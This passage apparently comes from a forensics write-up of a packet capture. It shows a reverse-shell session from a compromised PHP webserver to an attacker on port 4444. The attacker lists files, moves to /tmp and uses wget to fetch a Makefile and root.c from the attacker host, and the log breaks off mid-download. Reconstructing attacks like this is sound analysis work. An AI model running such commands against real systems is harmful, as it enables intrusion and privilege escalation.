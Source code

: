 

Sure enough, stream 26 is the webserver connecting to the attacker on
4444, and running commands:



    ls
    ajax-tab.php
    ajax.php
    ajax_products_list.php
    autoupgrade
    backup.php
    backups
    bootstrap.php
    cron_currency_rates.php
    displayImage.php
    drawer.php
    export
    favicon.ico
    filemanager
    footer.inc.php
    functions.php
    get-file-admin.php
    grider.php
    header.inc.php
    import
    index.php
    init.php
    pdf.php
    public
    robots.txt
    searchcron.php
    themes
    webpack.config.js
    cd /tmp
    ls -la
    total 8
    drwxrwxrwt  2 root    root      4096 Dec 10 21:52 .
    drwxr-xr-x 22 root    root      4096 Dec  4 21:20 ..
    prw-r--r--  1 ib01c01 customers    0 Dec 10 21:52 osfiftm
    wget 10.0.2.19/Makefile
    --2018-12-10 21:53:00--  http://10.0.2.19/Makefile
    Connecting to 10.0.2.19:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 154 [application/octet-stream]
    Saving to: 'Makefile'

         0K                                                       100% 19.0M=0s

    2018-12-10 21:53:00 (19.0 MB/s) - 'Makefile' saved [154/154]

    wget 10.0.2.19/root.c
    --2018-12-10 21:53:20--  http://10.0.2.19/root.c
    Connecting to 10.0.2.19:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3094 (3.0K) [text/plain]
    Saving to: 'root.c'

